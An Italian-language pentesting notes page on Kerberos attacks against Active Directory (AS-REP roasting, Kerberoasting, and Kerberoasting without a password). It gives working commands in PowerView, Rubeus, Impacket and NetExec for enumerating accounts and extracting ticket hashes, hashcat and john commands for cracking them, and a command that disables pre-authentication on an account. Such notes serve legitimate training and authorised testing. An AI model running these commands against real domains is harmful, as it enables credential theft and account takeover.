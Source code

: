 ```yaml
---
description: Kerberos Ticket Request Attacks
authors: pozivonpm
category: ad
---
```

# Ticket Request Attacks

Ci sono due modi per richiedere un ticket: 

- TGT o `AS-REQ`, a cui il KDC risponde con un `AS-REP`
- Richiesta TGS, o `TGS-REQ`, a cui il KDC risponde con un `TGS-REP`

### AS-REP Roasting

Quando abbiamo richiesto un TGT (AS-REQ), abbiamo visto che `per impostazione predefinita`, un utente deve autenticarsi tramite un `autenticatore` crittografato con il proprio segreto. Tuttavia, se un utente ha **disabilitato la  preautenticazione**, potremmo richiedere i dati di autenticazione per  quell'utente e il KDC restituirà un messaggio AS-REP. Poiché parte di  tale messaggio (la chiave di sessione temporanea condivisa) viene  crittografata utilizzando la password dell'utente, è possibile eseguire  **un attacco di forza bruta offline per tentare di recuperare la password** dell'utente.

Ci sono **altri modi** in cui possiamo sfruttare questo attacco, se si hanno delle autorizzazioni `GenericWrite` o `GenericAll` per un account. In tal caso, possono abilitare questo attributo e  ottenere il ticket AS_REP per il cracking offline per recuperare la  password dell'account prima di disabilitarlo nuovamente; il successo dipende dal fatto che l'utente abbia una password relativamente debole. 

**ENUMERAZIONE**
::: tabs
=== PowerView

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) può essere usato per enumerare gli utenti con il flag della proprietà [UserAccountControl](https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) (`UAC`) impostato su `DONT_REQ_PREAUTH`.

```powershell
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```
=== Rubeus
Possiamo anche utilizzare `Rubeus.exe asreproast /format:hashcat` per enumerare tutti gli account con il flag `DONT_REQ_PREAUTH`.

```powershell
.\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt
```
=== Impacket

```bash
impacket-GetNPUsers '$domain'/'$user':'$passwd' -dc-ip '$ip' -no-pass | grep '\$krb5asrep\$' > as-rep.txt

impacket-GetNPUsers -request '$domain'/'$user':'$passwd' -dc-ip '$ip' -outputfile as-rep.txt

impacket-GetNPUsers '$domain'/ -dc-ip '$ip' -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass
```

=== NetExec

```bash
nxc ldap $ip -u '$user' -p '$passwd' --asreproast as-rep.txt
```
:::
Se la pre-autenticazione è disabilitata per un utente, l'invio di un nome utente valido fa sì che il KDC risponda con un messaggio AS-REP valido.
**Se la pre-autenticazione è abilitata, le risposte del KDC variano in base all'esistenza del nome utente o meno:**

`KRB5KDC_ERR_PREAUTH_REQUIRED` - Se è richiesta la pre-autenticazione e l'utente esiste.
`KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN` - Se l'utente non esiste.


**CRACKING HASH**

```bash
hashcat.exe -m 18200 hashes.txt /Tools/rockyou.txt -O
john --wordlist=/Tools/rockyou.txt hashes.txt
```

**Impostare DONT_REQ_PREAUTH con PowerView**

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=userName)(name=userName)(displayname=userName))))
VERBOSE: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'userName'
```

### Kerberoasting

Allo stesso modo, quando un utente dispone di un TGT, può richiedere un  ticket di servizio per qualsiasi servizio esistente. La risposta KDC (TGS-REP) contiene informazioni crittografate con il segreto `dell'account del servizio`. Se l'account del servizio ha una password debole, è possibile eseguire lo stesso attacco offline per recuperare la password per quell'account.

`Kerberoasting` è un attacco contro gli account del servizio che consente a un utente  malintenzionato di eseguire un attacco di cracking delle password  offline contro l'account Active Directory associato al servizio. È  simile ad ASREPRoasting, ma richiede l'autenticazione preventiva al  dominio. In altre parole, per eseguire l'attacco abbiamo bisogno di un  account utente di dominio e di una password validi (anche quelli con  privilegi più bassi) o di una shell SYSTEM (o di un account di dominio  con privilegi bassi) su una macchina aggiunta a un dominio.

Quando un servizio viene registrato, un [nome dell'entità servizio (SPN)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) viene aggiunto ad Active Directory ed è un alias di un account AD  effettivo. Le informazioni archiviate in Active Directory includono il  nome del computer, la porta e l'hash della password dell'account AD. In  una configurazione corretta, gli "account di servizio" vengono  utilizzati con questi SPN per garantire una password complessa. Questi  account sono come gli account macchina e possono anche avere password a  rotazione automatica.

Un account che espone un servizio ha un nome dell'entità servizio (o SPN). Si tratta di un attributo LDAP impostato sull'account che indica  l'elenco dei servizi esistenti forniti da questo account. Se questo  attributo non è vuoto, questo account offre almeno un servizio. 

**ENUMERAZIONE:**

::: tabs
=== PowerView

[PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) può essere utilizzato per enumerare gli utenti con un SPN impostato e richiedere automaticamente il `ticket di servizio (ST)` per produrre un hash crackabile.

```powershell
Get-DomainUser -SPN
```

Possiamo anche utilizzare l'uso di PowerView per eseguire direttamente l'attacco Kerberoasting.

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
```

Invece del metodo manuale illustrato sopra, possiamo utilizzare la funzione `Invoke-Kerberoast` per eseguire questa operazione rapidamente.

```powershell
Invoke-Kerberoast
```

=== Rubeus
Possiamo usare Rubeus per Kerberoast tutti gli utenti disponibili e restituire i loro hash per il cracking offline. 

```powershell
C:\Tools>Rubeus.exe kerberoast /nowrap
```

=== Impacket
**IMPACKET**

```bash
impacket-GetUserSPNs '$domain'/'$user' -request
```
:::

**CRACKING HASH**

```bash
hashcat.exe -m 13100 hashes.txt /Tools/rockyou.txt -O
hashcat -m 13100 hashes.txt rockyou.txt
```

### Kerberoasting senza password dell'account

 C'è un caso in cui possiamo eseguire un attacco Kerberoasting senza un account di dominio e una password validi, quando siamo a conoscenza di un account senza la preautenticazione Kerberos abilitata.

Possiamo utilizzare questo account per utilizzare una richiesta `AS-REQ` (solitamente utilizzata per richiedere un TGT) per richiedere un ticket TGS per un utente Kerberoastable. Questo viene fatto modificando la parte req-body della richiesta.

Per eseguire questo attacco, abbiamo bisogno di quanto segue: 

1. Nome utente di un account con la preautenticazione disabilitata (`DONT_REQ_PREAUTH`).
2. Un nome SPN di destinazione o un elenco di nomi SPN. 

```powershell
Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```

